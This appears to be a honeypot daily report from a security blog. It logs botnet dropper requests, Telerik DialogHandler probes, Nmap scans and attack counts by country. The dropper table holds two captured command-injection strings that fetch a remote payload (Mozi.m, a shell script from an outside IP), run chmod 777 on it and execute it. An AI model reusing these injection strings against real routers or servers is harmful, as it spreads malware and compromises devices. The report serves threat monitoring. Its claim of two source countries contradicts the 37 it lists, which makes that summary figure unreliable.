 ```yaml
---
title: "Report: 2025-05-08 "
date: 2025-05-08
desciption: "Report: 2025-05-08" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-08 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 32 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1283 requests were recorded during the day, originating from 2 different countries, with a peak of 326 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                  |
|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 70.40.41.125  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                    |
| 45.95.147.209 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F212.81.47.226%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                              |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------|
| 258 |                     2 | PROPFIND / HTTP/1.1                                                                                                  |
| 284 |                     1 | GET /_wpresources/RadEditorSharePoint/6.9.0.0__1f131a624888eeed/Resources/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1 |
| 285 |                     1 | GET /app_master/telerik.web.ui.dialoghandler.aspx HTTP/1.1                                                           |
| 286 |                     1 | GET /en/providers/htmleditorproviders/telerik/telerik.web.ui.dialoghandler.aspx HTTP/1.1                             |
| 287 |                     1 | GET /desktopmodules/telerikwebui/radeditorprovider/telerik.web.ui.dialoghandler.aspx HTTP/1.1                        |
| 288 |                     1 | GET /desktopmodules/dnnwerk.radeditorprovider/dialoghandler.aspx HTTP/1.1                                            |
| 289 |                     1 | GET /dashboard/UserControl/CMS/Page/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                       |
| 290 |                     1 | GET /ajaxpro/AjaxPro.Services.ProfileService,AjaxPro.2.ashx HTTP/1.1                                                 |
| 304 |                     1 | GET /bLWW HTTP/1.1                                                                                                   |
| 307 |                     1 | GET /nmaplowercheck1746701387 HTTP/1.1                                                                               |
| 311 |                     1 | GET /health HTTP/1.1                                                                                                 |
| 314 |                     1 | GET /NmapUpperCheck1746701387 HTTP/1.1                                                                               |
| 320 |                     1 | GET /Nmap/folder/check1746701387 HTTP/1.1                                                                            |
| 391 |                     1 | GET /Assets/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                               |
| 392 |                     1 | GET /DesktopModules/Admin/RadEditorProvider/DialogHandler.aspx HTTP/1.1                                              |
| 393 |                     1 | GET /providers/htmleditorproviders/telerik/telerik.web.ui.dialoghandler.aspx HTTP/1.1                                |
| 394 |                     1 | GET /Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                                      |
| 395 |                     1 | GET /common/admin/Jobs2/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                   |
| 396 |                     1 | GET /common/admin/Calendar/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                |
| 397 |                     1 | GET /AsiCommon/Controls/ContentManagement/ContentDesigner/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                 |
| 398 |                     1 | GET /Providers/HtmlEditorProviders/Telerik/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                |
| 399 |                     1 | GET /cms/portlets/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                         |
| 400 |                     1 | GET /sitecore/shell/RadControls/Spell/Telerik.Spell.DialogHandler.aspx HTTP/1.1                                      |
| 401 |                     1 | GET /common/admin/PhotoGallery2/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                           |
| 402 |                     1 | GET /_controls/responsive/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                 |
| 403 |                     1 | GET /controls/events/v2/Telerik.Web.UI.DialogHandler.aspx HTTP/1.1                                                   |
| 415 |                     1 | GET /nmaplowercheck1746679829 HTTP/1.1                                                                               |
| 416 |                     1 | NJMT / HTTP/1.1                                                                                                      |
| 417 |                     1 | GET /NmapUpperCheck1746679829 HTTP/1.1                                                                               |
| 418 |                     1 | GET /Nmap/folder/check1746679829 HTTP/1.1                                                                            |
| 427 |                     1 | GET /c2fa HTTP/1.1                                                                                                   |
| 428 |                     1 | GET /dKFh HTTP/1.1                                                                                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   326 | BG                 |
|  1 |                   235 | US                 |
|  2 |                   155 | NL                 |
|  3 |                   155 | GB                 |
|  4 |                    88 | SG                 |
|  5 |                    73 | RU                 |
|  6 |                    41 | DE                 |
|  7 |                    40 | PL                 |
|  8 |                    25 | SC                 |
|  9 |                    14 | AZ                 |
| 10 |                    13 | CA                 |
| 11 |                    11 | KR                 |
| 12 |                    10 | PT                 |
| 13 |                    10 | IN                 |
| 14 |                     9 | CN                 |
| 15 |                     9 | GH                 |
| 16 |                     8 | IL                 |
| 17 |                     7 | AO                 |
| 18 |                     6 | AL                 |
| 19 |                     6 | BR                 |
| 20 |                     6 | UA                 |
| 21 |                     6 | HK                 |
| 22 |                     5 | LT                 |
| 23 |                     5 | RO                 |
| 24 |                     3 | BE                 |
| 25 |                     3 | VN                 |
| 26 |                     2 | ID                 |
| 27 |                     2 | JP                 |
| 28 |                     2 | ZM                 |
| 29 |                     1 | SE                 |
| 30 |                     1 | IT                 |
| 31 |                     1 | NZ                 |
| 32 |                     1 | DK                 |
| 33 |                     1 | TR                 |
| 34 |                     1 | SA                 |
| 35 |                     1 | FR                 |
| 36 |                     1 | EE                 |
